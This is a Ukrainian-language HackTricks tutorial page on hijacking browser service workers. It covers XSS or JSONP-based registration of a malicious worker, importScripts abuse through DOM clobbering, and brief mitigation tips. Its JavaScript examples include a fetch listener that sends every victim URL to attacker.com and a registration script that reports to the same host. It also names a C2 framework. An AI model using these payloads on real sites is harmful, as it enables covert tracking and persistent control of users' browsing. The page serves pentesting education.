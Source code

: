 # Зловживання службовими працівниками

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

**Службовий працівник** — це скрипт, який виконується вашим браузером у фоновому режимі, окремо від будь-якої веб-сторінки, що дозволяє використовувати функції, які не потребують веб-сторінки або взаємодії з користувачем, тим самим покращуючи можливості **офлайн-роботи та фонової обробки**. Докладну інформацію про службових працівників можна знайти [тут](https://developers.google.com/web/fundamentals/primers/service-workers). Зловживаючи службовими працівниками в уразливому веб-домені, зловмисники можуть отримати контроль над взаємодією жертви з усіма сторінками в цьому домені.

### Перевірка наявних службових працівників

Існуючі службові працівники можуть бути перевірені в розділі **Службові працівники** вкладки **Застосунок** у **Інструментах розробника**. Інший метод — відвідати [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) для більш детального перегляду.

### Push-сповіщення

**Дозволи на push-сповіщення** безпосередньо впливають на здатність **службового працівника** спілкуватися з сервером без прямої взаємодії з користувачем. Якщо дозволи відхилені, це обмежує потенціал службового працівника становити постійну загрозу. Навпаки, надання дозволів підвищує ризики безпеки, дозволяючи отримувати та виконувати потенційні експлойти.

## Атака створення службового працівника

Щоб скористатися цією вразливістю, вам потрібно знайти:

* Спосіб **завантажити довільні JS** файли на сервер і **XSS для завантаження службового працівника** завантаженого JS файлу
* **Уразливий JSONP запит**, де ви можете **маніпулювати виходом (з довільним JS кодом)** і **XSS** для **завантаження JSONP з корисним навантаженням**, яке **завантажить шкідливого службового працівника**.

У наступному прикладі я збираюся представити код для **реєстрації нового службового працівника**, який буде слухати подію `fetch` і **надсилати на сервер зловмисника кожну отриману URL-адресу** (це код, який вам потрібно **завантажити** на **сервер** або завантажити через **уразливу JSONP** відповідь):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
І це код, який **зареєструє робітника** (код, який ви повинні мати можливість виконати, зловживаючи **XSS**). У цьому випадку **GET** запит буде надіслано на сервер **зловмисника**, **повідомляючи**, чи була **реєстрація** сервісного робітника успішною, чи ні:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
У випадку зловживання вразливим JSONP кінцевим пунктом ви повинні помістити значення всередину `var sw`. Наприклад:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Є **C2**, присвячений **експлуатації Service Workers**, під назвою [**Shadow Workers**](https://shadow-workers.github.io), який буде дуже корисним для зловживання цими вразливостями.

**Директива кешу на 24 години** обмежує термін дії шкідливого або скомпрометованого **service worker (SW)** максимум 24 години після виправлення вразливості XSS, за умови онлайн-статусу клієнта. Щоб мінімізувати вразливість, оператори сайтів можуть знизити Time-To-Live (TTL) скрипта SW. Розробникам також рекомендується створити [**kill-switch для service worker**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) для швидкої деактивації.

## Зловживання `importScripts` у SW через DOM Clobbering

Функція **`importScripts`**, викликана з Service Worker, може **імпортувати скрипт з іншого домену**. Якщо ця функція викликається з використанням **параметра, який зловмисник може** змінити, він зможе **імпортувати JS-скрипт зі свого домену** і отримати XSS.

**Це навіть обходить захист CSP.**

**Приклад вразливого коду:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### З DOM Clobbering

Для отримання додаткової інформації про те, що таке DOM Clobbering, перегляньте:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Якщо URL/домен, який SW використовує для виклику **`importScripts`**, знаходиться **всередині HTML-елемента**, **можливо модифікувати його через DOM Clobbering**, щоб SW **завантажив скрипт з вашого власного домену**.

Для прикладу цього перегляньте посилання на довідку.

## Посилання

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
